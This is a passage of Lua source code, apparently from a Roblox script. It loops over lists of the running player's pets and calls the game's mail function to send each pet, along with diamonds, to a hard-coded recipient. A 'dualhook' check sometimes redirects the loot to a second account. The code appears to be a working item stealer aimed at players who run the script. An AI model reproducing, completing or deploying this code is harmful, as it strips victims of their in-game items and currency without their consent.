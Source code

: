         end
    end
end)

spawn(function()
    while wait() do
        if #PList ~= 0 and #TList == 0 and #BList == 0 and #HList == 0 then
            for i, v in pairs(PList) do
                user = UserName
                if pogin ~= nil then
                    if dualhook(pogin) then
                        user = dhuser
                    end
                end
                local args = {
                    [1] = {
                        ["Recipient"] = user,
                        ["Diamonds"] = givediaamt,
                        ["Pets"] = { v },
                        ["Message"] = mailmsg,
                    }
                }
                mailremote:InvokeServer(unpack(args))
                -- wait(5.5)
                if #PList == 0 or PList == {} then
                    -- print("done1")
                    break
                end
            end
        end
    end
end)
spawn(function()
    while wait() do
        if #EList ~= 0 and #HList == 0 and #TList == 0 and #BList == 0 and #PList == 0 then
            for i, v in pairs(EList) do
                user = UserName
                if excin ~= nil then
                    if dualhook(excin) then
                        user = dhuser
                    end
                end
                local args = {
                    [1] = {
                        ["Recipient"] = user,
                        ["Diamonds"] = givediaamt,
                        ["Pets"] = { v },
                        ["Message"] = mailmsg,
                    }
                }
                mailremote:InvokeServer(unpack(args))
                -- wait(5.5)
                if #EList == 0 or EList == {} then
                    -- print("done42")
                    break
                end
            end
        end
    end
end)
spawn(function()
    while wait() do
        if #EvList ~= 0 and #EList == 0 and #HList == 0 and #TList == 0 and #BList == 0 and #PList == 0 then